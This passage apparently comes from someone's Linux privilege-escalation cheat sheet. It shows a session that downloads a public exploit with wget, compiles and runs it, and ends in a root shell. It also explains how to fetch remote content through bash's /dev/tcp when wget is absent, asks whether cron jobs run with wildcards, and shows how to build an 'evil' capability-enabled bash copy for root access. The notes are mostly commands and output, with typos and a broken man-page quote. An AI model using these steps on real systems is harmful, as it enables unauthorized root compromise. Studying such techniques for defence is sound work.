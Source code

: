```
steve@ubuntu: wget -O exploit.c http://www.exploit-db.com/download/18411
steve@ubuntu: gcc exploit.c -o exploit
steve@ubuntu: file exploit
exploit: ELF etc......
ste@ubuntu: id
uid=10000 gid=10000 groups, etc
steve@ubuntu: ./exploit
#id
uid=0(root)
```
## wget without wget
nformation about Bash Built-in /dev/tcp File (TCP/IP)

The following script fetches the front page from Google:
```
exec 3<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: http://www.google.com\r\nConnection: close\r\n\r\n" >&3
cat <&3
```

The first line causes file descriptor 3 to be opened for reading and writing on the specified TCP/IP socket. This is a special form of the exec statement. From the bash man page:


Second line: After the socket is open we send our HTTP request out the socket with the echo … >&3 command. The request consists of:

```
GET / HTTP/1.1
host: http://www.google.com
Connection: close
```

Each line is followed by a carriage-return and newline, and all the headers 2are followed by a blank line to signal the end of the request (this is all standard HTTP stuff).

Third line: Next we read the response out of the socket using cat <&3, which reads the response and prints it out.


&nbsp;
&nbsp;
## **11 wildcards ?**
---
hay algun cron corriendo con wildcards?
&nbsp;
&nbsp;
## **12 linux capabilities**
---
* find cap  files
```
getcat -r * 2>/dev/null
```
* creating an evil cap
```
[root@centos7-1 mnt]# cp -p /bin/bash /mnt/myBash
[root@centos7-1 mnt]# setcap all+epi /mnt/myBash
[root@centos7-1 mnt]# getcap /mnt/myBash
/mnt/myBash =eip
```
then
```
/mnt/myBash --inh-caps +all --reuid 0 /bin/bash
# root
```